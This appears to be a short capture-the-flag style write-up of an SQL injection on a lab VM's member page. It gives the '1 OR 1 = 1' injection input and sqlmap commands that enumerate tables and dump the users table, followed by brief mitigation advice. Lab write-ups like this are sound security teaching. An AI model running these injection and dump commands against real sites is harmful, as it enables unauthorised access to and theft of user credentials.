 #SQL Injection Member

The form in the member page has an input value which isn't sanatized when processed by the server.

## Table of Contents

- [Steps](#Steps)
- [Secure](#Ways to secure)

### Steps
Go to the member page <a href="http://192.168.56.102/?page=member">http://192.168.0.108/?page=member</a>

In the form input enter
```bash
1 OR 1 = 1
```

Press the submit button

Run reconnaissance
```bash
sqlmap "http://192.168.56.102/?page=member&id=1+OR+1+%3D+1&Submit=Submit#" --tables
```

We want to extract information from the users table
```bash
sqlmap "http://192.168.56.102/?page=member&id=1+OR+1+%3D+1&Submit=Submit#" --dump -T users
```
<img src="https://i.imgur.com/czJyCei.png" />

<a href="" target="_blank">Decrypt</a> the password

To get the key, run
```bash
py sha256encrypt.py fortytwo
```

#### Ways to secure
Always validate and sanatize input from client
Use prepared statements and stored procedures
